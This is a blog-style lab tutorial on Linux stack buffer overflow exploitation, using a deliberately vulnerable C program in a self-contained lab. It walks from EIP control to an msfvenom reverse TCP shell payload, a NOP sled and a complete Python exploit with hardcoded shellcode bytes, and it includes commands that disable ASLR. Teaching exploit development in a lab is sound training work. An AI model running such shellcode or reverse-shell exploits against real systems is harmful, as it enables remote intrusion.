

:orphan:
(linux-exploitation-abusing-eip)=

# Linux Exploitation: Abusing EIP

In a [previous blog article](linux-exploitation-stack-smashing) we have demonstrated that by providing a binary with an input of a specific length, its `EIP` register can be made to point to a specific address. Up until now, we have employed invalid addresses consisting of `ASCII-byte` representations of the letters `A` or `B`. How about using a valid address?

Let's compile a very similar program:

```cpp
#include <stdio.h>
#include <unistd.h>

int helper() {
  system("touch pwnd.txt");
}

int overflow() {
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
  return 0;
}

int main (int argc, char * argv[]) {
  overflow();
  return 0;
}
```

The only difference between this program and the previous one is an unused function `helper()`.

_Dead code_ refers to unused code within a program, which may occur due to a developer's oversight of failing to remove unused functions.

As a reminder, here are the compilation commands that you may find helpful:

_Compile_:

```bash
gcc -fno-stack-protector -z execstack program.c -o program
```

_Disable ASLR_:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```


One of the first things we can do with the `EIP` control is reuse the binary's dead code.

In other words, we will direct the `EIP` to the executeable function `helper()`.

To accomplish this, we require the address of this function.
Let's execute the newly created binary in `gdb` and examine the function's address using the `p helper` command:


If you do not have the source code of the target program and the binary is not stripped, you can use `gdb`'s `info functions` command to locate the existing functions:

```bash
info functions
```


Even without the source code, it is possible to locate and decompile the `helper` function:

```bash
disas helper
```


The disassembly dump reveals the call to `system()` as well as the push of an address onto the stack immediately prior to it.

It is obvious that whatever is pushed onto the stack immediately before a function call is its argument.

By examining the string located at that address, we can now determine that it is an argument to the `system()` function, which creates a file.

Now we must create the buffer that will be used to pass the address of the `helper()` function to the program, rather than `ASCII` characters.

We must remember the following:

- Since bytes in memory are stored in reverse order, we must split the address into individual bytes and write it from the end to the beginning.
- Using escape sequences, we can store these bytes in the buffer.

As examined with `gdb`, the address of the `helper()` function is `0x804846b`.

Given that a hexadecimal address consists of four bytes, we are obviously missing one digit; the trailing zero was omitted. The address's `8-byte` representation is `0x0804846b`.

As we split it into bytes, we receive:
`0x 08 04 84 6b`

To conform to the specifications of the memory storage format, we must send them to the buffer in reverse order:
`6b 84 04 08`

Let's replace `BBBB` with the address of the `helper()` function:

```bash
python -c 'print "A"*516 + "\x6b\x84\x04\x08" + "C"*180' > 1.txt
```


Now, let's run the executable within `gdb` and feed the input to it. We can observe that a new process was created:

```bash
run < 1.txt
```


In accordance with the function's intent, the `helper()` function was executed and a new file was generated.

It is obvious that not every binary will contain a function that can be called to perform a useful action.

Now, let's attempt to exploit the buffer overflow by adding the shellcode.

Shellcode is a set of instructions that is used to execute certain actions within the program. As we are most often interested in getting a shell - it's called _shellcode_.

If you disassemble a single executable, you will discover that it is composed of numerous bytes.

Each byte corresponds to a specific instruction (processor operation).

If you direct the current execution flow (`EIP` register) into an area of memory that has execute permission (for instance, because it is an executable section), the program will attempt to execute the bytes that reside there, regardless of whether they are intended to be data or instructions.


You can think of shellcode as a compiled assembly program in the form of raw machine code.

As there are constraints, writing shellcode will be covered in a one of the subsequent blog post. Additionally, it is impossible to input any assembly bytes into memory. For instance, there are certain bytes that could prevent an exploit. Mastering shellcoding also requires the ability to use particular characters while avoiding others.

For the time being, we can generate our own shellcode without knowing how its internals work by using `msfvenom`, which is a part of the _metasploit framework_.

The final step is to respond to the following question.
_How is shellcode introduced into the program?_

As a large amount of data overflows the buffer, it becomes part of the application's memory. Once the buffer is delivered to the application, it will be possible to locate the shellcode in memory, so it can be shipped there.

In addition, there is the issue of bad characters. Since a buffer overflow is typically caused by an insecure copy/read or similar operation, you should understand how such functions handle user input.

If you ever attempt to decompile a function like `strcpy()`, you will notice that it scans the user's string and compares the byte representation of each character to zero (`0x00`).

Once a null byte is encountered, the copying process ceases because the end of the string has been reached.

Additionally, if you examine the C/C++ strings at the byte level, you will notice that each one concludes with a `0x00` byte. You may also encounter the term "null-terminated string", which refers to strings in the C style that end with a zero.

Since we wish to insert a shellcode into the exploit buffer, we must avoid including any null bytes within it. This time, it will be generated automatically by adding a single parameter to the `msfvenom` function.

In addition to the null byte, different functions and programs may also contain other undesirable characters.

Even if this is not the case currently, be vigilant for future attempts to exploit you.

Let's generate shellcode so that it can be inserted into the exploit buffer. We will use a shellcode in reverse. A netcat listener is required to establish a reverse shell connection to it. `-b` specifies the characters that should not be included in the shellcode (bad characters).

```bash
msfvenom -p linux/x86/shell_reserse_tcp lhost=192.168.139.147 lport=4444 -b "\x00" -f python
```


Now you can paste the result buffer into the exploit.

We can also instruct `msfvenom` to store the generated payload in a file for convenience, rather than displaying it on the terminal.

The final step is to determine the address of the shellcode at the time of the crash. Let's quickly debug the program using the first payload (so `EIP` is `0x42424242`).


We inspect `200` bytes beginning at the current `esp`, `0x230`. This is the beginning address of the program buffer.
Additionally, we can see where the `AAAAA`s begin, which is the following address: `0xbfffed70 + 0x8`


Hardcoding an address in an exploit is considered a bad
practice and often results in poor reliability. However, as this is a basic exploit, we do not need to care about this right now.

The shellcode begins at address `0xbfffed78`. As even the environment variable changes may shift the stack by a few bytes, let's increase the stack's dependability by inserting a `NOP` slide before the shellcode.

`NOP` is a _No-Operation instruction_ (opcode `0x90`) and does nothing. Its original purpose was to help with measuring
processor performance by performing just an empty cycle.

`NOP`s can be added to the beginning of the shellcode.

As `NOP`s are empty operations, if the execution flow is shifted to a long sequence of `NOP`s (referred to as a `NOP` slide), the program will execute them en route to the shellcode that follows them. It does not matter whether the execution flow is moved to the beginning or middle of a `NOP` slide, as long as the shellcode is at its end, it will be executed.

The full exploit can be seen below:

```python
buf =  ""
buf += "\xba\x6c\x34\xa2\xea\xdb\xce\xd9\x74\x24\xf4\x5d\x2b"
buf += "\xc9\xb1\x12\x31\x55\x12\x03\x55\x12\x83\x81\xc8\x40"
buf += "\x1f\x68\xea\x72\x03\xd9\x4f\x2e\xae\xdf\xc6\x31\x9e"
buf += "\xb9\x15\x31\x4c\x1c\x16\x0d\xbe\x1e\x1f\x0b\xb9\x76"
buf += "\x60\x43\xb2\x15\x08\x96\xc5\x08\x95\x1f\x24\x9a\x43"
buf += "\x70\xf6\x89\x38\x73\x71\xcc\xf2\xf4\xd3\x66\x63\xda"
buf += "\xa0\x1e\x13\x0b\x68\xbc\x8a\xda\x95\x12\x1e\x54\xb8"
buf += "\x22\xab\xab\xbb"

print "\x90" * 16 + buf + "A" * (500 - len(buf)) + "\x78\xed\xff\xbf" + "C" * 180
```


Executing the program within gdb shows that the exploit worked!


In addition, the reverse shell is received. Let's also determine whether the exploit works outside of `gdb`.


Depending on your OS configuration, this might end up unattractive.


This is a common occurrence in exploit development, and you should be ready to deal with it.

Outside of `gdb`, the given shellcode address is apparently invalid. This is likely the result of a different environment configuration outside of `gdb`.

Using core dump, it is possible to examine what happened:


In this instance, the stack was altered. Let's modify the exploit so that it corresponds to the crash address outside of `gdb`. The beginning of the `NOP`-slide is located at `0xbfffedc0 + 0x8`. Change the address to `0xbfffedc8` and run the exploit again.

```python
print "\x90" * 16 + buf + "A" * (500 - len(buf)) + "\xc8\xed\xff\xbf" + "C" * 180
```

After making the adjustment and rerunning the application, we observe that the execution has stalled, but there is no segfault.



The netcat listener indicates the reception of the reverse shell:


As mentioned previously, this is a simple exploit, and its low reliability was demonstrated even when executed outside of a debugger.

When evaluating the severity of an exploit, reliability is one of the most crucial factors. The greater its versatility, the more operating systems it can run on.

In the following blog posts, we will discover how to improve the dependability of your exploits and how to circumvent common anti-exploit mechanisms.

## References

- [peda](https://github.com/longld/peda)
- [gdb](https://linux.die.net/man/1/gdb)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::
